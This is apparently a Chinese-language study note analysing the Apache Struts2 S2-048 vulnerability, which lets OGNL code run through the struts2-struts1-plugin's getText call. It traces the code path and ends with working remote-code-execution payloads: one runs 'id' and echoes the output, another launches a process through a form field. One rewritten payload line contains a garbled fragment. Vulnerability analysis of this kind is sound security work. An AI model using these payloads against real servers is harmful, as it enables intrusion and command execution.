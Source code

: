   ### S2-048
  
  ![s2-048-result](../imgs/s2-048-result.png)
  
  攻击者可以构造恶意的字段值通过 Struts2 的 `struts2-struts1-plugin` 的插件，远程执行代码。  
  http://localhost:9048/showcase

* 漏洞分析 
   
  本质上是在 `struts2-struts1-plugin` 这个 jar 包上。这个库是用将 [struts1 的 action](../MyLearning.md#struts1-action) 封装成 [struts2 的 action](../MyLearning.md#struts2-action) 以便在 struts2 上使用。本质原因还是在 `struts2-struts1-plugin` 包中 `Struts1Action.java` 中 `execute函数` 调用了 `getText函数`，这个函数会执行 ognl 表达式，并且 `getText` 的输入内容是攻击者可控的。以下分析基于 struts2 的官方示例 struts2-showcase war 包。首先 `Struts1Action` 的 `execute` 方法代码如下。从红框中信息可以看出其实质是调用 `SaveGangsterAction.execute` 方法，然后再调用 `getText(msg.getKey()….)`。  

  进入 [`Struts1Action.java`](./Struts1Action.java)：  
  
  ![s2-048-01](http://xxlegend.com/images/048-1.png)  

  `SaveGangsterAction.java` 的 `execute` 方法的实现：  

  ![s2-048-02](http://xxlegend.com/images/048-2.png)  

  其中 `gform.getName()` 的值是从客户端获取的，传入有毒参数 `${1+1}`，放到了 messages (request) 中。  

  接着返回 `Struts1Action` 的 execute 方法中，创建了 [`ActionMessages`](./ActionMessages.java) 实例，获取 request 中的 message。进入循环后，如果数组长度不为0，进入 `if`；如果长度为0，进入 `else`。[`ActionMessage`](./ActionMessage.java) 类中包含了 `key` 和 `Values`。最终执行的是 `else` 里的语句，读取的内容 `Gangster ${1+1} added successfully` 作为 key 存入。

  ![s2-048-04](http://xxlegend.com/images/048-4.png)  

  进入 getText 的实现函数，栈图:  

  ![s2-048-05](http://xxlegend.com/images/048-5.png)  

  [`ActionSupport`](./ActionSupport.java) 的 getText() 方法：  
  
  ![s2-048-06](http://xxlegend.com/images/048-6.png)  
  
  接着进入 [`TextProviderSuppport.getText()`](./TextProviderSupport.java)，接着调用其另一个重载类方法 getText()：  

  ![s2-048-07](http://xxlegend.com/images/048-7.png)  

  进入 [`LocalizeTextUtil.findText()`](./LocalizedTextUtil.java)：  

  ![s2-048-08](http://xxlegend.com/images/048-8.png)  

  是 ognl 表达式的入口，得到一个 valueStack，最后调用了另一个重载类方法 findText()：  

  ![s2-048-09](../imgs/s2-048-09.png)


* payload  
  
  ![s2-048-payload](../imgs/s2-048-payload.png)
  
  将如下POC填入表单 `Gengster Name` 中，提交即可直接回显命令执行的结果：
  ```
  %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
  ```

  ```java
  // 链式表达式
  (dm = ognl.OgnlContext.DEFAULT_MEMBER_ACCESS).(_memberAccess ? (_memberAccess = dm):((container = context['com.opensymphony.xwork2.ActionContext.container']).(ognlUtil = container.getInstance(com.opensymphony.xwork2.ognl.OgnlUtil.class)).(ognlUtil.getExcludedPackageNames().clear()).(ognlUtil.getExcludedClasses().clear()).(context.setMemberAccess(dm)))).(q = org.apache.commons.io.IOUtils.toString(java.lang.Runtime.getRuntime().exec('id').getInputStream())).(q)
  ```

  ```
  name=${(#glassy='multipart/form-data').(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=(new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}&age=11&__checkbox_bustedBefore=true&description=22
  ```

  ```java
  name=${( glassy = 'multipart/fm-data'or).(_memberAccess = ognl.OgnlContext.DEFAULT_MEMBER_ACCESS).(a = (new java.lang.ProcessBuilder('/Applications/Notes.app/Contents/MacOS/Notes')).start())}&age=11&__checkbox_bustedBefore=true&description=22
  ```